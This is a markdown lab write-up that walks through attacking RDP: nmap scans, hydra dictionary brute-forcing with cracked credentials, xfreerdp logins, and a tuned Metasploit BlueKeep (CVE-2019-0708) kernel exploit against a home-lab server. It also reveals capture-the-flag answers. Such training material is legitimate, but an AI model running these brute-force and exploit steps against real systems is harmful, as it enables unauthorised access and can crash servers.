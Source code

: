 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> - Target IP: `10.4.18.131`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.18.131

nmap -sV 10.4.18.131
```

```bash
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

![](assets/image-20230314205710077.png)

- Use Metasploit [rdp_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp_scanner/) module to check if port `3333` is running RDP.

```bash
msfconsole
```

```bash
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS 10.4.18.131
set RPORT 3333
run
```

![Metasploit rdp_scanner](assets/image-20230314210003571.png)

> 📌 The **RDP is exposed on target port `3333`**, and not on the default port `3389`.

### RDP Brute-force

- Try `hydra` to find valid username and password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333
```

```bash
[3333][rdp] host: 10.4.18.131   login: sysadmin   password: samantha
[3333][rdp] host: 10.4.18.131   login: demo   password: victoria
[3333][rdp] host: 10.4.18.131   login: auditor   password: elizabeth
[3333][rdp] host: 10.4.18.131   login: administrator   password: qwertyuiop
```

![hydra](assets/image-20230314210954773.png)

- `freerdp` cannot be used in this lab
- Use **`xfreerdp`** to connect to target via RDP

```bash
xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333
```

![xfreerdp RDP connected](assets/image-20230314211206593.png)



<details>
<summary>Reveal Flag: 🚩</summary>


`port-number-3333`

![](assets/image-20230314211258633.png)



</details>

------

## Lab 2 - BlueKeep (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `RDP` service on default port `3389`.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool:
> - Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
> - ❗ **Targeting Kernel space memory and apps can cause system crashes.**

- *The attacker can remotely execute arbitrary code by gaining access to a chunk of kernel memory, without authentication.*
- BlueKeep **PoC**'s (**P**roof **o**f **C**oncepts) and exploits could be **malicious** in nature, use only verified exploit code and modules.

![Metasploit BlueKeep modules](assets/image-20230314213952365.png)

- Target RDP activated:

![](assets/image-20230314213648795.png)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](assets/image-20230314175805319.png)

> - 📌 RDP Port `3389` is open

### Exploitation

```bash
msfconsole
```

```bash
search bluekeep
use 0 # Module auxiliary/scanner/rdp/cve_2019_0708_bluekeep ID
set RHOSTS 192.168.31.131
exploit
```

![Metasploit cve_2019_0708_bluekeep](assets/image-20230314214843974.png)

```bash
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
exploit
```

![](assets/image-20230314222031244.png)

![Metasploit cve_2019_0708_bluekeep_rce](assets/image-20230314220044989.png)

![Win Server 2008 R2 crash](assets/image-20230314222843050.png)

> ❗ **Kernel CRASH can be caused by this exploit, so pay attention on production environment** ❗

#### Adjusting the exploit

- To make the exploit work, I've used the [Pentest-Tools blog on BlueKeep](https://pentest-tools.com/blog/bluekeep-exploit-metasploit) and [Alexandre Vieira blog post](https://alexandrevvo.medium.com/testing-bluekeep-cve-2019-0708-metasploit-module-on-windows-7-ef3f28217b7b).
- On WinServer2008 target, open `regedit`
  - `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`
  - Set `fDisableCam` reg key on `0`

![](assets/image-20230314222313593.png)

#### Finding the NPP

- To make the exploit work, it needs the correct GROOMBASE value which is the start address of the [Non Paged Pool area](https://docs.microsoft.com/en-us/windows/win32/memory/memory-pools) (NPP).
- The NPP address can be extracted from a memory dump of the target machine.
- In VMWare, take a snapshot of the target virtual machine (Win Server 2008 R2).
  - Download the [vmss2core tool](https://labs.vmware.com/flings/vmss2core;)
  - From the VM (virtual machine) folder copy the `.vmem` and `.vmsn` files to the `vmss2core` tool folder
  - Run the tool to generate a `memory.dmp` file

```bash
.\vmss2core-sb-8456865.exe -W "WinSrv_2008_R2_x64-Snapshot1.vmsn" "WinSrv_2008_R2_x64-Snapshot1.vmem"
```

- Run [WinDbg](https://apps.microsoft.com/store/detail/windbg-preview/9PGJGD53TN86?hl=en-us&gl=us) and open the `memory.dmp` file
  - Run `!polfind a` to get a message
  - That is the start of address of Non Page Pool, in this case **`fffffa8018c08000`**

![WinDbg](assets/image-20230314224629902.png)

- Edit the exploit and set the `GROOMBASE` variable if not already set.
  - In my case it is already set as the above address, for the `2008 R2 (6.1.7601 x64 - VMWare 15.1)` target number `5`.

![](assets/image-20230314225313177.png)

- Save the exploit file and run `reload_all` in the Metasploit interface.
- Set the GROOMSIZE to 50.

```bash
msfconsole
search bluekeep
use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
set RHOSTS 192.168.31.131
show targets
set target 5
set GROOMSIZE 50
exploit
```

 ![BlueKeep RCE Success](assets/image-20230314225747271.png)

------

## Lab 3 (Extra)

> [Windows RDP: Dictionary Attack](https://attackdefense.com/challengedetails?cid=1954)
>
> - Target IP: `10.4.22.41`
> - **RDP** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```bash
nmap 10.10.4.22.41

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.22.41 -s 3389
```

![](assets/image-20230314235059534.png)

```bash
xfreerdp /u:administrator /p:bubbles /v:10.4.22.41
# default port is 3389
```

<details>
<summary>Reveal Flag: 🚩</summary>



`sysadmin-stephaie-123`

![](assets/image-20230314235250789.png)



</details>

------

